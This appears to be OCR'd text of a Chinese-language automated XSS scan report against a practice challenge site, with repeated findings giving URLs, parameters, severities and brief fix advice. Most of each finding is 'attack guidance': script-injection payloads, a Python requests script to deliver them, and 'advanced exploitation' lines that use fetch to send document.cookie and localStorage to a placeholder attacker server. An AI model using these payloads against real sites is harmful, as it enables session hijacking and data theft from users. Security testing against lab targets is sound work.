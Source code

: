 3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 严重程度: high
- 验证载荷: "><script>alert(1)</script>
- 修复建议: 对所有用户输入进行HTML编码，使用现代框架的XSS防护机制，实施内容安全策略(CSP)

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 submit 中注入以下payload:
   ```javascript
   "><script>alert(1)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'submit': '"><script>alert(1)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 严重程度: medium
- 验证载荷: <script>alert(1)</script>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 submit 中注入以下payload:
   ```javascript
   <script>alert(1)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'submit': '<script>alert(1)</script>'}
   response = requests.get(url, params=params)
   ```
